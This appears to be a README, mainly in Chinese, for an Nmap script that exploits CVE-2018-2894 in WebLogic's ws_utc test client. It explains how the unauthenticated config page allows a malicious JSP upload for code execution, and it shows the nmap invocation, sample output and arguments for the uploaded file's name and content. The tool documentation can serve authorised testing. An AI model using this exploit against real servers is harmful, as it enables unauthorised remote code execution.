 # CVE-2018-2894


ws_utc 为 WebLogic Web 服务测试客户端，其配置页面存在未授权访问的问题，路径为 /ws_utc/config.do

攻击者通过访问此配置页面，先更改工作目录，用有效的 WebLogic Web 路径替换存储 JKS Keystores 的文件目录，然后在上传 JKS Keystores 时上传恶意的 JSP 脚本文件。访问最终的 JSP 文件路径地址，即可做到代码执行


## Usage

```
root@kali:~# nmap -Pn 172.19.0.2 -p 7001 --script=weblogic-cve-2018-2894 -n
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-23 02:26 EDT
Nmap scan report for 172.19.0.2
Host is up (0.000055s latency).

PORT     STATE SERVICE
7001/tcp open  afs3-callback
| weblogic-cve-2018-2894: 
|_  url: /ws_utc/config/keystore/1532327177_test.jsp
MAC Address: 02:42:AC:13:00:02 (Unknown)
```

## More

-- @args weblogic-cve-2018-2894.uri points to the file '/weblogic/'. Default /
-- @args weblogic-cve-2018-2894.filename the name of the file to be uploaded
-- @args weblogic-cve-2018-2894.content  file's contents
-- Other useful arguments when using this script are:
-- * http.useragent = String - User Agent used in HTTP requests


